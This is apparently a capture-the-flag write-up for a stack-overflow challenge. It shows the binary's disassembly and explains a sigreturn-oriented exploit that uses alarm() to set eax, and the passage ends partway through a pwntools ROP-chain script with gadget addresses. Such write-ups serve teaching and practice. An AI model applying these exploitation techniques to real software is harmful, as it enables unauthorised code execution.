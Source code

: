 ```
.text:0000000000400541 main            proc near
.text:0000000000400541
.text:0000000000400541 buf             = byte ptr -20h
.text:0000000000400541
.text:0000000000400541 ; __unwind {
.text:0000000000400541                 push    rbp
.text:0000000000400542                 mov     rbp, rsp
.text:0000000000400545                 sub     rsp, 20h
.text:0000000000400549                 mov     edi, 0Fh        ; seconds
.text:000000000040054E                 call    _alarm
.text:0000000000400553                 lea     rax, [rbp+buf]
.text:0000000000400557                 mov     edx, 100h       ; nbytes
.text:000000000040055C                 mov     rsi, rax        ; buf
.text:000000000040055F                 mov     edi, 0          ; fd
.text:0000000000400564                 call    _read
.text:0000000000400569                 mov     eax, 1
.text:000000000040056E                 leave
.text:000000000040056F                 retn
.text:000000000040056F ; } // starts at 400541
.text:000000000040056F main            endp
```

The function at `0x400537` is a gift ! We have a raw syscall instruction. However, to have control over the syscall, we first need to control `rax`, and no gadget allows us to control `rax` trivially, apart from `0x400569` which allows to set `eax=1`.

`sigreturn` is a nice system call in this case, which will read cpu context from the stack, consequently allowing us to control all the registers. The syscall number associated with it is `0xf`. So we are looking at setting `eax=0xf`.

Reading the alarm manpage is rather interesting:

```c
ALARM(2)                   Linux Programmer's Manual                  ALARM(2)

NAME
       alarm - set an alarm clock for delivery of a signal
...
RETURN VALUE
       alarm() returns the number of seconds remaining  until  any  previously
       scheduled alarm was due to be delivered, or zero if there was no previ‐
       ously scheduled alarm.
...
```

For this challenge, calling `alarm()` will set the alarm to fire later, and a nice side-effect, will also set `eax` to the remaining number of seconds until the scheduled alarm fires. Thus calling `alarm()` sets `eax=0xf`, which is what we wanted.

We will go for a `sigreturn`, and cook the stack for it to work correctly:

```python
from pwn import SigreturnFrame, constants
def exploit(p, elf, libc):
	stack_base = 0x601800  

	ropchain = b''

	ropchain += b'A'*32
	ropchain += p64(stack_base) # rbp

	# 0x00000000004005d1 : pop rsi ; pop r15 ; ret
	gadget_pop_rsi_r15 = 0x4005d1
	
	ropchain += p64(gadget_pop_rsi_r15) + p64(stack_base) + p64(0)

	# 0x0000000000400564 : call read
```